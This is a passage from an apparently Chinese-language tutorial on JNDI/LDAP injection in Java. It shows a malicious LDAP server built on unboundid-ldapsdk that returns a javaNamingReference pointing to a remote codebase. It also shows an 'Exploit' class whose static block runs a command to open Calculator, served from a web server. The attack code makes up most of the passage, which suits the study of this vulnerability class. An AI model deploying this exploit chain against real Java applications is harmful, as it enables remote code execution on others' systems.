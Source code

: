 ```java

        }

        protected void sendResult(InMemoryInterceptedSearchResult result, String base, Entry e) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "Calc");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if (refPos > 0) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }

    }
}
```

这里用到了ldap实现`unboundid-ldapsdk`：

```xml
<dependency>
    <groupId>com.unboundid</groupId>
    <artifactId>unboundid-ldapsdk</artifactId>
    <version>6.0.3</version>
</dependency>
```

2. 将恶意代码放在放在web服务器上

恶意攻击代码：

```java
public class Exploit {
    static {
        try {
            Runtime.getRuntime().exec("open -na Calculator");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```



这里使用mac自带的python web server

